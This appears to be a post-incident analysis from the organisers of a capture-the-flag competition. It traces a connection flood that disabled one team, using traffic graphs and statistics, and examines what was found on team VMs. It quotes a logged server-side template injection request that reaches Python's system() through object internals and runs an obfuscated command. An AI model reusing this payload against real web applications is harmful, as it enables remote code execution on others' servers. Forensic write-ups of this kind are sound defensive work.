 <img src="/images/ictf2016-2017/1.png" width="100%" alt="Connections Intiated per Minute to Bushwhackers"></img>

The raw number of connections per second was tolerable. However, the average connection length
started to cause a problem.  Since the connections were never properly disconnected, the average
length of an open connection shot up from 2.3 seconds to 43.1 seconds.  This means that roughly
40,000 to 80,000 connections were held open by the router.

The end result was that Bushwhackers was dead in the water and the router was barely able to pass
through any other connections. The game was stopped.


## Traffic Logs

Looking at the graph above, the traffic suddenly jumped at around 4:15am for Bushwhackers.  The
number of Bushwhackers-bound connections rose from an average of 11.5 connections per second to 521
connections per second. The average duration of the connections increased from 2.3 seconds to 43.1
seconds. This held for nearly every team.

<img src="/images/ictf2016-2017/2.png" width="100%" alt="Connections per Second to Bushwhackers"></img>

The above graph shows three teams, chosen randomly from those still active at 4am.  The
near-simultaneous jump in traffic across all the teams seems unlikely to be caused by a normal
progression of the game. Moreover, it is unlikely that all the teams suddenly decided to collude
against Bushwhackers. Thus, this spike is likely due to an external source that caused the teams to
start initiating those connections.


## Needle in a Haystack?

We analyzed several team VMs to determine what caused the spike in connections. We started with
one of the teams whose players had never logged in (we'll call this one "Team Rndm"). We knew what
should have been on the machine, and we found some things that should not have been. Specifically,
in /tmp, we found:

<img src="/images/ictf2016-2017/3.png" width="100%" alt="Symlinks to /hui/pizda"></img>

Note the broken symlinks there to /hui/pizda. For the record, here are the translations for
[hui](https://translate.google.com/#ru/en/%D1%85%D1%83%D0%B9) and
[pizda](https://translate.google.com/#ru/en/%D0%BF%D0%B8%D0%B7%D0%B4%D0%B0) from Russian
(de-transliterated) to English. While these files were gone from Rndm's machine, by checking the
logs of the flasking_unicorns service across several teams, we did find attack traffic that would
cause this file to be created, such as:

    :::text linenos=no
    GET
    /nice_try?next=/nice_try?qwe=123%7B%7B().__class__.__base__.__subclasses__()[59]()._module.__builtins__[().__class__.__base__.__subclasses__()[59]()._module.__builtins__.keys()[109]](().__class__.__base__.__subclasses__()[59]()._module.__builtins__[().__class__.__base__.__subclasses__()[59]()._module.__builtins__.keys()[84]](28531)[2:].decode(().__class__.__base__.__subclasses__()[59]()._module.__builtins__.keys()[84])).system(().__class__.__base__.__subclasses__()[59]()._module.__builtins__[().__class__.__base__.__subclasses__()[59]()._module.__builtins__.keys()[84]](72972124064846007756595026691783025840304375086663582832834300809497899368234278311051663970255086482162180723180528984862257)[2:-1].decode(().__class__.__base__.__subclasses__()[59]()._module.__builtins__.keys()[84]))%7D%7D
    HTTP/1.1" 200 492 "-" "python-requests/2.2.1 CPython/2.7.6 Linux/3.13.0-107-generic
